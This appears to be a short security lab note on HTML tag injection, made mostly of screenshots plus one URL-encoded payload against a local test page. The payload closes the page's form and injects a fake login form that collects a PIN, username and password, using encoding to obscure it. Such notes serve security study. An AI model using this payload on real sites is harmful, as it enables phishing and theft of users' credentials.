 # HTML TAG injection

## TAG injection

![](../../../.gitbook/assets/3825bcd648a845d58b38e6671868c74d.png)

* **Checking the source and messing with hidden value :**

![](../../../.gitbook/assets/2e7612e2ad8649548a29f0965f7d938c.png)

![](../../../.gitbook/assets/c5cd193707e840738832d9a3d1c63b48.png)

![](../../../.gitbook/assets/98642737f1ab4c87b0c96d4b79dda36a.png)

* **We can then paste whatever we want using this technique \(plus encoding for obsucation\)**

```text
http://127.0.0.1/htmltagsii.php?sid=%22%3E%3C/form%3E%3Cform%20action=%27/%27%3E%3Cbr%3EYou%20PIN:%20%3Cinput%20type=%22text%22%20name=%22pin%22%3E%3Cbr%3E%3CUsername:%20%3Cinput%20type=%22text%22%20name=%22username%22%3EPassword:%20%3Cinput%20type=%22password%22%20name=%22pass%22%3E%3Cbr%3E%3Cinput%20type=%22submit%22%20value=%22Login%22%3E%3C/form%3E%3C!--
```


